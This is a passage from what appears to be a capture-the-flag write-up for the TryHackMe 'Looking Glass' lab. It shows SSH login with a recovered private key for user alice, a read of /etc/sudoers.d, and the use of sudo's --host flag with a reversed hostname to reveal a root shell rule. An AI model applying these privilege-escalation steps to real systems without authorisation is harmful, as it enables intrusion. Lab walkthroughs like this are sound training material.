 Copy the key and paste it into a key file on local machine:

```
┌──(kali㉿kali)-[~/TryHackMe/LookingGlass]
└─$ nano id_rsa_alice

┌──(kali㉿kali)-[~/TryHackMe/LookingGlass]
└─$ chmod 600 id_rsa_alice

┌──(kali㉿kali)-[~/TryHackMe/LookingGlass]
└─$ ls -l id_rsa_alice
-rw------- 1 kali kali 1679 Sep  1 03:57 id_rsa_alice
```

Then use it to perform **ssh** connection as user **alice** without password requirement:

```
┌──(kali㉿kali)-[~/TryHackMe/LookingGlass]
└─$ ssh alice@LGlass.thm -i id_rsa_alice
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ id
uid=1005(alice) gid=1005(alice) groups=1005(alice)
```

### Root

Check out the `/etc/sudoers.d` directory:

```
alice@looking-glass:~$ cd /etc/sudoers.d/
alice@looking-glass:/etc/sudoers.d$ ls -la
total 24
drwxr-xr-x  2 root root 4096 Jul  3  2020 .
drwxr-xr-x 91 root root 4096 Sep  1 07:46 ..
-r--r-----  1 root root  958 Jan 18  2018 README
-r--r--r--  1 root root   49 Jul  3  2020 alice
-r--r-----  1 root root   57 Jul  3  2020 jabberwock
-r--r-----  1 root root  120 Jul  3  2020 tweedles
```

Read the file `alice`:

```
alice@looking-glass:/etc/sudoers.d$ cat alice
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

At the first time looking to this information, the `ssalg-gnikool` might confuse you ( I am too) and it could be misunderstanding. But when you look at it carefully, you will notice that string is the reverse of **glass-looking** which is exactly the local host name of this machine. This configuration avoid user **Alice** to execute the `sudo` command directly.

Luckily, the `sudo` command has an option with `-h` flag (or `--host`) to allow user to change the default host setting:

```
alice@looking-glass:/etc/sudoers.d$ sudo --host=ssalg-gnikool -l
sudo: unable to resolve host ssalg-gnikool
Matching Defaults entries for alice on ssalg-gnikool:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on ssalg-gnikool:
    (root) NOPASSWD: /bin/bash
```
